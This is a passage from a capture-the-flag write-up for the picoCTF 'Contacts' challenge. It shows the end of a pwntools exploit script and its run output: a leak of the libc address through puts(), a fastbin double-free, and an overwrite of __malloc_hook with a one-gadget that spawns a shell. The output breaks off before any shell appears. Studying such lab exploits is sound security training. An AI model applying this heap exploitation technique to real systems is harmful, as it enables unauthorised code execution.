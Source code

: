 ```python
# This will write the magic gadget address to offset_byte_7f + 0x13, which is the start address of __malloc_hook

create_contact("Shell") # Will call __malloc_hook when trying to allocate, which is now pointing to one-gadget
p.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/pico/Contacts# python exploit.py
[*] '/media/sf_CTFs/pico/Contacts/contacts_test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
    FORTIFY:  Enabled
[*] '/media/sf_CTFs/pico/Contacts/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/usr/local/bin/one_gadget': pid 1414
[+] Receiving all data: Done (28B)
[*] Process '/usr/local/bin/one_gadget' stopped with exit code 0 (pid 1414)
[*] One-gadget address for ./libc.so.6: 0x4526a
[+] Opening connection to 2018shell3.picoctf.com on port 29455: Done
[*] Address of puts() .got.plt: 0x602020
[*] Address of puts() in libc: 0x6f690
[*] Created name 'Leak1'
[*] Bio set for name 'Leak1': 00000000000000002020600000000000
[*] Bio for Leak1 pseudo-freed
[*] Created name 'Leak2'
[*] Display: name = 'Leak2', bio = '902686f07e7f'
[*] Runtime address of puts(): 0x7f7ef0862690
[*] LibC base: 0x7f7ef07f3000
[*] Created name 'FBMem1'
[*] Created name 'FBMem2'
[*] Created name 'FBMem3'
[*] Created name 'FBMem4'
[*] Created name 'FBMem5'
[*] Created name 'FBMem6'
[*] Bio set for name 'FBMem1': 6161616162616161636161616461616165616161666161616761616168616161696161616a6161616b6161616c6161616d6161616e6161616f616161706161617161616172616161736161617461616175616161766161617761616178616161
[*] Bio set for name 'FBMem2': 6161616162616161636161616461616165616161666161616761616168616161696161616a6161616b6161616c6161616d6161616e6161616f616161706161617161616172616161736161617461616175616161766161617761616178616161
[*] Bio for FBMem1 pseudo-freed
[*] Bio for FBMem2 pseudo-freed
[*] Bio for FBMem1 pseudo-freed
[*] Bio set for name 'FBMem3': ed7abbf07e7f000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
[*] Bio set for name 'FBMem4': 6161616162616161636161616461616165616161666161616761616168616161696161616a6161616b6161616c6161616d6161616e6161616f616161706161617161616172616161736161617461616175616161766161617761616178616161
[*] Bio set for name 'FBMem5': 6161616162616161636161616461616165616161666161616761616168616161696161616a6161616b6161616c6161616d6161616e6161616f616161706161617161616172616161736161617461616175616161766161617761616178616161
```